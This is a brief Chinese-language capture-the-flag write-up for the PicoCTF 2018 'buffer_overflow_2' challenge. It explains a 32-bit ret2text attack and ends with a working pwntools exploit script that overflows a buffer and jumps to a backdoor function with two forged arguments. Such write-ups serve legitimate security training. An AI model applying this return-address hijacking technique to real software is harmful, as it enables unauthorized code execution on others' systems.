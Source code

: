 ```yaml
---
title: 'PicoCTF_2018_buffer_overflow_2'
date: 2024-01-06 13:00:00 +0800
categories: [ctf,pwn]
tags: [ret2text]
---
```

![image-20240106203324958](../assets/img/old_imgs/image-20240106203324958.png)

![image-20240106203332714](../assets/img/old_imgs/image-20240106203332714.png)

- `ret2text`
- `32`位程序函数参数劫持

1. `vuln`函数中存在溢出
2. 存在后门函数
3. 构造`payload`跳转到后门函数得到`shell`

这里要注意,跳转到后门函数的同时要传入两个参数`a1 & a2`,缺失参数会导致`eof`错误

```python
from pwn import *
io = process('./PicoCTF_2018_buffer_overflow_2')
padding = b'A'*(0x6c+4)
payload = padding+p32(0x080485CB)+p32(0)+p32(0xDEADBEEF)+p32(0xDEADC0DE)
io.sendlineafter(b'Please enter your string:',payload)
io.interactive()
```

